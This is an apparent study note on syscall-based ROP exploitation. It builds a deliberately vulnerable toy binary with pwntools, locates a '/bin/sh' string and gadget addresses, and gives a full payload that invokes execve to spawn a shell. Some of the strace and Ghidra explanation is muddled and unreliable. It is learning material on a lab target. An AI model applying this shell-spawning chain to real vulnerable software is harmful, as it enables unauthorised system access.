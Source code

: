 ```yaml
---
description: 09/22/2023
---
```


# Exploitation w/ Syscalls

## References

{% embed url="https://book.hacktricks.xyz/reversing-and-exploiting/linux-exploiting-basic-esp/rop-syscall-execv" %}

{% embed url="https://ir0nstone.gitbook.io/notes/types/stack/syscalls/exploitation-with-syscalls" %}

**First, we'll create a file with Python/pwntools:**

```python
import os
from pwn import *


context.arch = 'amd64'
context.os = 'linux'

elf = ELF.from_assembly(
    '''
        mov rdi, 0;
        mov rsi, rsp;
        sub rsi, 8;
        mov rdx, 300;
        syscall;
        ret;
        
        pop rax;
        ret;
        pop rdi;
        ret;
        pop rsi;
        ret;
        pop rdx;
        ret;
    '''
)
elf.save('vuln')
os.system("chmod +x vuln")
```

It will first execute a `read()` syscall. This will read from a file descriptor (identifier for a file or other resource).

**We can see this with `strace`:**

```
strace ./vuln
execve("./vuln", ["./vuln"], 0x7ffd9782ca00 /* 22 vars */) = 0
read(0,
"\n", 300)
```

We can see `execve()` placing the value `0` into `RAX` (which the kernel checks), storing the value as a parameter (`0`) into `RDI` and calling `read()` or `0` which is the syscall number for `read()`.

## Analyzing Syscalls in Ghidra

Okay, so this was a little different.

We can see that the value, <mark style="color:yellow;">`0`</mark> <mark style="color:yellow;">is</mark> <mark style="color:yellow;">being moved onto the stack and being placed into the</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`RDI`</mark> <mark style="color:yellow;">register</mark>.

This is our <mark style="color:yellow;">invoke of the</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`read()`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">syscall since</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">`0`</mark> <mark style="color:yellow;"></mark><mark style="color:yellow;">is our syscall number</mark>.

We then write the value `300` (had to convert this from `0x12C`) to the stack using `RDX`.

Lastly, we `ret`.

<figure><img src="../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption><p>Ghidra Analysis</p></figcaption></figure>

**We can add `"/bin/sh"` by:**&#x20;

```
echo -en "/bin/sh\x00" >> vuln
```

**After that, we can get the gadget address using `strings`:**

```
strings -t x vuln | grep bin
   1238 /bin/sh
```

We see the offset from the base to the string is `0x1238`.

## Exploitation

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Arming ourselves with the following information will allow us to get a shell.

```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

binsh = elf.address + 0x1238

POP_RAX = 0x10000018
POP_RDI = 0x1000001a
POP_RSI = 0x1000001c
POP_RDX = 0x1000001e
SYSCALL = 0x10000015

payload = flat(
    'A' * 8,
    POP_RAX,
    0x3b,
    POP_RDI,
    binsh,
    POP_RSI,
    0x0,
    POP_RDX,
    0X0,
    SYSCALL
)

p.sendline(payload)
p.interactive()
```

<mark style="color:red;">**Disclaimer**</mark>: Unfortunately and for the first time, I wasn't really fond of Ir0nstone's guide on this one, so I will be adding some more examples.

As a result, this is still a work in progress.
